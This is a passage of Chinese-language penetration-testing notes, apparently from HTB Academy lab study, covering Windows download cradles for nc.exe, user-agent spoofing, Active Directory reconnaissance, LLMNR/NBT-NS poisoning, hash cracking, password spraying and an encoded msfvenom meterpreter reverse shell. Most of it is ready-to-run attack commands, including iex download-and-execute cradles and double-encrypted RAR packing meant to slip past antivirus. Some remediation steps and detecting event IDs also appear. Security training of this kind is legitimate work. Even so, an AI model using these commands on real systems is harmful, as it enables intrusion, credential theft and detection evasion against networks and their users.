openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

```powershell-session
bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```

## 5.7 检测技术

1.Invoke-WebRequest

```powershell-session
Invoke-WebRequest http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"
Invoke-RestMethod http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"

User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.14393.0

```

2. WinHttpRequest 

```powershell-session
$h=new-object -com WinHttp.WinHttpRequest.5.1;
$h.open('GET','http://10.10.10.32/nc.exe',$false);
$h.send();
iex $h.ResponseText

User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)

```

3.Msxml2

```powershell-session
$h=New-Object -ComObject Msxml2.XMLHTTP;
$h.open('GET','http://10.10.10.32/nc.exe',$false);
$h.send();
iex $h.responseText

User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)

```

4.Certutil

```cmd-session
certutil -urlcache -split -f http://10.10.10.32/nc.exe 
certutil -verifyctl -split -f http://10.10.10.32/nc.exe

User-Agent: Microsoft-CryptoAPI/10.0

```

5.BITS

```powershell-session
Import-Module bitstransfer;
Start-BitsTransfer 'http://10.10.10.32/nc.exe' $env:temp\t;
$r=gc $env:temp\t;
rm $env:temp\t; 
iex $r

User-Agent: Microsoft BITS/7.8

```

## 5.8 规避检测

[Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.1) 包含一个 UserAgent 参数，该参数允许将默认用户代理更改为模拟 Internet Explorer、Firefox、Chrome、Opera 或 Safari 的用户代理。

```
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl


$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"

GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```

# 六、AD域攻击

## 6.1 **信息收集**

外部侦察内容：

ip、域名及子域名、DNS记录、相关新闻、引用链接、任何有用的pdf/word文档、招聘信息、代码硬编码或注释、社工泄露账户（反正就是任何公开发表的东西中去寻找蛛丝马迹）===>形成关联网

```
https://www.iana.org/ 搜索美洲的 arin
https://www.ripe.net/ 搜索欧洲的 RIPE
https://bgp.he.net/

以下是针对知名的DNS服务器（比如8.8.8.8）的DNS记录
https://securitytrails.com/
www.domaintools.com/
https://lookup.icann.org/en

社交媒体网站、新闻文章、“关于我们”、“联系我们”等

https://github.com/
https://www.exploit-db.com/google-hacking-database
https://grayhatwarfare.com/

https://haveibeenpwned.com/ 确定电子邮件泄露

https://github.com/trufflesecurity/truffleHog
https://buckets.grayhatwarfare.com/

```

名词解释：

ASN：自治系统号，一个自治系统是一个在技术和管理上由单一机构控制的网络集合，通常由一个ISP、大学、企业或数据中心提供商运营，所有使用 **统一的路由策略** 的网络都可以组成一个 AS。用于 **BGP（边界网关协议）路由**，每个公网 IP 都归属于一个 ASN，被广泛用于 CDN、防火墙、访问控制、地域封锁等。

缩小范围之后，进行主动枚举：

- 可以对名称服务器进行nslookup,将其添加到Hosts文件

- 搜寻pdf,email

  ```
  filetype:pdf inurl:inlanefreight.com
  intext:"@inlanefreight.com" inurl:inlanefreight.com
  ```

```
https://github.com/initstring/linkedin2username
https://dehashed.com/
构建密码
```

进入到内部网络后可以做的动作：

可以使用 tcpdump 将捕获保存到 .pcap 文件，将其传输到另一台主机，然后在 Wireshark 中打开它。

```
tcpdump -l eth
```

 `pktmon.exe`已添加到 Windows 10 的所有版本中，

[Responder](https://github.com/lgandx/Responder-Windows) 是一种用于侦听、分析和毒化 `LLMNR`、`NBT-NS` 和 `MDNS` 请求和响应的工具。

```
responder -I ens224 -A 
```

[Fping](https://fping.org/) 为我们提供了与标准 ping 应用程序类似的功能，因为它利用 ICMP 请求和回复来联系主机并与之交互。fping 的亮点在于它能够同时针对多个主机的列表发出 ICMP 数据包，并且具有可脚本性。

```
fping -asgq 172.16.5.0/23 #a显示活动的目标；s在扫描结束时打印统计信息；g从CIDR网路生成目标列表；q不显示每个目标的结果
```

使用Nmap执行专注于 AD 服务通常附带的标准协议的扫描，例如 DNS、SMB、LDAP 和 Kerberos 等。

```
nmap -v -A -iL hosts.txt -oN /home/htb-student/Documents/host-enum
```

[Kerbrute](https://github.com/ropnop/kerbrute) 可以成为域帐户枚举的更隐蔽选项。它利用了 Kerberos 预身份验证失败通常不会触发日志或警报的事实。我们将 Kerbrute 与 [Insidetrust](https://github.com/insidetrust/statistically-likely-usernames) 的 `jsmith.txt` 或 `jsmith2.txt` 用户列表结合使用。

安装过程

```
git clone https://github.com/ropnop/kerbrute.git
make help
make all
ls dist/
. 运行 
添加到环境变量
```

使用

```shell-session
kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
```

有几种方法可以在主机上获得 SYSTEM 级访问权限，包括但不限于：

- 远程 Windows 漏洞，例如 MS08-067、EternalBlue 或 BlueKeep。
- 滥用在 `SYSTEM 帐户`上下文中运行的服务，或使用 [Juicy Potato](https://github.com/ohpe/juicy-potato) 滥用服务帐户 `SeImpersonate` 权限。
- Windows 操作系统漏洞（如 Windows 10 Task Scheduler 0-day）中的本地权限提升缺陷。
- 使用本地帐户在已加入域的主机上获得管理员访问权限，并使用 Psexec 启动 SYSTEM cmd 窗口。

## 6.2 网络中毒

对链路本地组播名称解析 （LLMNR，端口5355） 和 NetBIOS 名称服务 （NBT-NS，端口137） 广播的中间人攻击。

这种攻击可能会提供可以离线破解的低权限或管理级别密码哈希，甚至是明文凭据。哈希值有时也可用于执行 SMB 中继攻击，以使用管理权限向域中的一个或多个主机进行身份验证，而无需离线破解密码哈希值。

### 6.2.1 Linux

1.工具:responder

确保以下端口可用

```shell-session
UDP 137, UDP 138, UDP 53, UDP/TCP 389,TCP 1433, UDP 1434, TCP 80, TCP 135, TCP 139, TCP 445, TCP 21, TCP 3141,TCP 25, TCP 110, TCP 587, TCP 3128, Multicast UDP 5355 and 5353
```

```
responder -I ens224 -A
```

保存的结果文件在/usr/share/responder/logs

2.离线破解

```shell-session
hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt 
```

### 6.2.2 Windows

```
Import-Module .\Inveigh.ps1 
(Get-Command Invoke-Inveigh).Parameters
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

```
.\Inveigh.exe
GET NTLMV2USERNAMES
GET NTLMV2UNIQUE
```

### 6.2.3 remediation:

转到“计算机配置 > 管理模板 --> 网络 --> DNS 客户端”并启用“关闭多播名称解析”来禁用组策略中的 LLMNR。



通过打开 `“控制面板 `”下的 `“网络和共享中心 `”，单击 `“更改适配器设置 `”，右键单击适配器以查看其属性，选择 `Internet Protocol Version 4 (TCP/IPv4)` 并单击 `“属性 `”按钮，然后单击 `“高级 `”并选择“`WINS`”选项卡，最后选择 `“禁用 TCP/IP 上的 NetBIOS`”。


禁用 NBT-NS

在计算机配置 --> Windows 设置 --> 脚本（启动/关闭）--> 启动下创建一个 PowerShell 脚本，如下所示：

```powershell
$regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces"
Get-ChildItem $regkey |foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}
```

在本地组策略编辑器中，我们需要双击 `“启动 `”，选择 `“PowerShell 脚本”` 选项卡，然后选择“对于此 GPO，请按以下顺序运行脚本”，然后单击 `Run Windows PowerShell scripts first` `“添加 `”并选择脚本。要进行这些更改，我们必须重新启动目标系统或重新启动网络适配器。



要将其推送到域中的所有主机，我们可以在域控制器上使用组策略`管理`创建一个 GPO，并将脚本托管在脚本文件夹中的 SYSVOL 共享上，然后通过其 UNC 路径调用它，例如：

```
\\inlanefreight.local\SYSVOL\INLANEFREIGHT.LOCAL\scripts
```

最后,监视注册表项 `HKLM\Software\Policies\Microsoft\Windows NT\DNSClient` 中 `EnableMulticast` DWORD 值的更改。值为 `0` 表示 LLMNR 已禁用。

## 6.3 密码喷射

生成只包含字母和数字的密码，1,679,616 个可能的组合。

```bash
for x in {{A..Z},{0..9}}{{A..Z},{0..9}}{{A..Z},{0..9}}{{A..Z},{0..9}}
    do echo $x;
done
```

**Note**：虽然密码喷洒对渗透测试人员或红队成员很有用，但粗心使用可能会造成相当大的伤害，例如锁定数百个生产帐户

### 6.3.1　获取密码策略

方式１：借助有效的域凭证

```shell-session
crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol　
```

方式２：Linux　从SMB　NULL会话

```
### 使用rpcclient ###
rpcclient -U "" -N 172.16.5.5
querydominfo
getdompwinfo

### 使用enum4linux ###
enum4linux -P 172.16.5.5
enum4linux-ng -P 172.16.5.5 -oA ilfreight
cat ilfreight.json
```

​                Windows ipc$ NULL会话

```
net use \\DC01\ipc$ "" /u:""
```

方式３：Linux LDAP 匿名

```
### 使用 ldapsearch ###
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength 新版中用-H代替了-h
```

​              Windows 已登录 net 枚举

```
net accounts
```

**Note:**锁定阈值为 5 意味着我们可以尝试每 31 分钟喷洒 2-3 次（为安全起见），而不会有锁定任何帐户的风险。如果帐户被锁定，它将在 30 分钟后自动解锁（无需管理员的手动干预），但我们应该不惜一切代价避免锁定`任何`帐户。

​              Windows 已登录 PowerView 枚举

```
import-module .\PowerView.ps1
Get-DomainPolicy
```

### 6.3.2　制作目标用户列表

```
enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```

或

```
rpcclient -U "" -N 172.16.5.5
enumdomusers
```

或

```
crackmapexec smb 172.16.5.5 --users
```

或

```
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```

或

```
./windapsearch.py --dc-ip 172.16.5.5 -u "" -U
```

或

```
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt
```

**Note:**使用 Kerbrute 进行用户名枚举将生成事件 ID [4768：请求了 Kerberos 身份验证票证 （TGT）。](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4768) 仅当通过组策略启用 [Kerberos 事件日志记录](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/enable-kerberos-event-logging)时，才会触发此事件。

如果我们无法使用上面突出显示的任何方法创建有效的用户名列表，我们可以返回外部信息收集并搜索公司电子邮件地址，或使用 [linkedin2username](https://github.com/initstring/linkedin2username) 等工具从公司的 LinkedIn 页面混合可能的用户名。

如果有有效凭证

```
sudo crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users
```

**实施Linux的密码喷射攻击：**

```
for u in $(cat valid_user.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

```
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```

```
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123 #验证
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep + #--local-auth 标志将告诉该工具仅尝试在每台计算机上登录一次，从而消除任何帐户锁定的风险。
```

**实施windows的密码喷射攻击：**

```powershell-session
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

在域控制器的安全日志中，事件 ID [4625 的许多实例：帐户在短时间内无法登录](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4625)可能表示密码喷射攻击。事件 ID [4771：Kerberos 预身份验证失败 ](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4771)，这可能表示 LDAP 密码喷射尝试。


# 七、Metasploit

许多人经常认为漏洞利用的失败反驳了可疑漏洞的存在。然而，这只是证明 Metasploit 漏洞不起作用，而不是漏洞不存在。这是因为许多漏洞需要根据目标主机进行定制才能使漏洞发挥作用。因此，Metasploit 框架等自动化工具只能被视为支持工具，而不是我们手动技能的替代品。

msfvenom对很多AV已经不生效了，这是因为仅基于签名的恶意文件分析已成为过去。 `Heuristic analysis, machine learning, and deep packet inspection` 使有效负载更难通过编码方案的几次后续迭代来逃避任何好的 AV 软件。

## 7.1 invasion

Packers有效负载与可执行程序和解压缩代码一起打包在一个文件中。

```
msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -e x86/shikata_ga_nai -a x86 --platform windows -o ~/test.js -i 5
```

```
双重加密 + 伪装”压缩来传递hacktool
wget https://www.rarlab.com/rar/rarlinux-x64-612.tar.gz
tar -xzvf rarlinux-x64-612.tar.gz && cd rar
rar a ~/test.rar -p ~/test.js
mv test.rar test
rar a test2.rar -p test
mv test2.rar test2
```

处理前



处理后【已经可以查出来了，不管用】


